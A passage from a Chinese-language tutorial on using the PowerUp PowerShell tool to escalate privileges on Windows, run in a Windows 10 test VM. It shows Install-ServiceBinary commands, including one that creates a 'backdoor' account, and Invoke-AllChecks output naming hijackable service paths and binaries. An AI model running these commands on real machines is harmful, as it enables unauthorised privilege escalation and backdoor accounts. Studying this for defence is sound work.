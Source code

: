 执行方式：

```
PS C:\> Install-ServiceBinary -ServiceName DHCP
PS C:\> Install-ServiceBinary -ServiceName VulnSVC -UserName "TESTLAB\john"
PS C:\> Install-ServiceBinary -ServiceName VulnSVC -UserName backdoor -Password Password123!
PS C:\> Install-ServiceBinary -ServiceName VulnSVC -Command "net ..."

```

> `Write-ServiceBinary`与`Install-ServiceBinary`不同的是前者生成可执行文件，后者直接安装服务。

0x03 实战提权
=====

测试环境为win10。平常用的虚拟机，并没有特意去配置存在漏洞的环境，所以并不是所有的模块均可以使用。实际测试可以根据实际环境来调整。此次测试并未使用内核漏洞来提权。

首先添加低权限测试账号，使用管理员身份运行cmd，添加测试账号：

```
C:\Windows\system32>net user powerup 1 /add

```

查看powerup账号权限：

![Alt text](http://drops.javaweb.org/uploads/images/ec7aff04f8a04ee5e42b42f41bc770340ff93948.jpg)

使用powerup账号登陆系统，加载Powerup：

![Alt text](http://drops.javaweb.org/uploads/images/5559646558d1d2897ab9c880e03a8d0fb98790fb.jpg)

执行Invoke-AllChecks:

```
PS E:\> Invoke-AllChecks

```

执行以后找到下列问题：

```
[*] Checking for unquoted service paths...


ServiceName   : CDROM_Detect
Path          : C:\Program Files\4G USB Modem\4G_Eject.exe
StartName     : LocalSystem
AbuseFunction : Write-ServiceBinary -ServiceName 'CDROM_Detect' -Path <HijackPath>

ServiceName   : hMailServer
Path          : C:\Program Files (x86)\hMailServer\Bin\hMailServer.exe RunAsService
StartName     : LocalSystem
AbuseFunction : Write-ServiceBinary -ServiceName 'hMailServer' -Path <HijackPath>

[*] Checking service executable and argument permissions...

ServiceName    : wampapache
Path           : "c:\wamp\bin\apache\apache2.2.17\bin\httpd.exe" -k runservice
ModifiableFile : c:\wamp\bin\apache\apache2.2.17\bin\httpd.exe
StartName      : LocalSystem
AbuseFunction  : Install-ServiceBinary -ServiceName 'wampapache'

ServiceName    : wampmysqld
Path           : c:\wamp\bin\mysql\mysql5.5.8\bin\mysqld.exe wampmysqld
ModifiableFile : c:\wamp\bin\mysql\mysql5.5.8\bin\mysqld.exe
StartName      : LocalSystem
AbuseFunction  : Install-ServiceBinary -ServiceName 'wampmysqld'

```
